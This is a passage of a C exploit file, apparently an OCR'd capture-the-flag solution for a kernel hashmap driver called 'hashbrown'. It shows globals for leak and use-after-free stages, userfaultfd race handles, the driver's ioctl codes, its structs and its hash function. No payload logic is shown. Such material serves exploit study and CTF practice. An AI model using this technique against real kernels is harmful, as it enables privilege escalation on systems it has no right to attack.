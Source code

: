 ```exploit.c
  );
}
// (END utils)

// consts
#define SIZE_ARR_START 0x10

// globals
#define STATE_LEAK 0
#define STATE_UAF 1
#define STATE_INVALID 99
void *uffdaddr = NULL;
pthread_t uffdthr; // ID of thread that handles page fault and continue exploit in another kernel thread
int hashfd = -1;
uint STATUS = STATE_LEAK;
uint targetkey = SIZE_ARR_START * 3 / 4 - 1;
uint limit = SIZE_ARR_START;
uint threshold = SIZE_ARR_START * 3/ 4;
char *faultsrc = NULL;
// (END globals)

/*** hashbrown ****/
// commands
#define ADD_KEY 0x1337
#define DELETE_KEY 0x1338
#define UPDATE_VALUE 0x1339
#define DELETE_VALUE 0x133a
#define GET_VALUE 0x133b
// returns
#define INVALID 1
#define EXISTS 2
#define NOT_EXISTS 3
#define MAXED 4

// structs
typedef struct{
    uint32_t key;
    uint32_t size;
    char *src;
    char *dest;
}request_t;
struct hash_entry{
    uint32_t key;
    uint32_t size;
    char *value;
    struct hash_entry *next;
};
typedef struct
{
    uint32_t size;
    uint32_t threshold;
    uint32_t entry_count;
    struct hash_entry **buckets;
}hashmap_t;
uint get_hash_idx(uint key, uint size)
{
    uint hash;
    key ^= (key >> 20) ^ (key >> 12);
    hash = key ^ (key >> 7) ^ (key >> 4);
    return hash & (size - 1);
}

```